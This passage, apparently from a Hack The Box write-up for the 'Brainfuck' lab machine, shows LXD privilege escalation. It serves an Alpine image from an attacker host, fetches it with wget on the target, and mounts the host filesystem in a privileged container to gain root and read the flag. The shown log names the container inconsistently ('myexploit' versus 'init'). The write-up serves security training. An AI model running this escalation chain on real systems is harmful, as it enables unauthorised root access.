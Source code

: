 We can then transfer the image over by using the `SimpleHTTPServer` module or using a recent useful tool I found called [`updog`](https://github.com/sc0tfree/updog).

On the attacker machine:
```bash
$ sudo updog -p 80                              
[+] Serving /home/kali/Desktop/htb/brainfuck/lxd-alpine-builder...
 * Running on http://0.0.0.0:80/ (Press CTRL+C to quit)
```

On the `Brainfuck` machine:
```bash
orestis@brainfuck:/tmp$ wget http://10.10.X.X/alpine-v3.12-x86_64-20210108_0810.tar.gz
```

Finally, we can just execute a series of commands to gain `root` access:

```bash
orestis@brainfuck:/tmp$ lxc image import alpine-v3.12-x86_64-20210108_0810.tar.gz 
Image imported with fingerprint: 471bec5017c23d969a92020aabb84dadd3df90cdad571ad8a581ae13b4b010e8
orestis@brainfuck:/tmp$ lxc image import alpine-v3.12-x86_64-20210108_0810.tar.gz --alias myimage
Transferring image: 100% (267.12MB/s)error: UNIQUE constraint failed: images.fingerprint
orestis@brainfuck:/tmp$ lxc init myimage myexploit -c security.privileged=true
Creating myexploit
orestis@brainfuck:/tmp$ lxc config device add myexploit mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to myexploit
orestis@brainfuck:/tmp$ lxc start init 
orestis@brainfuck:/tmp$ lxc exec init /bin/sh
~ # id
uid=0(root) gid=0(root)
```

And get our flag:

```bash
~ # cat /mnt/root/root/root.txt
6efcXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

### Rooted ! Thank you for reading and look forward for more writeups and articles !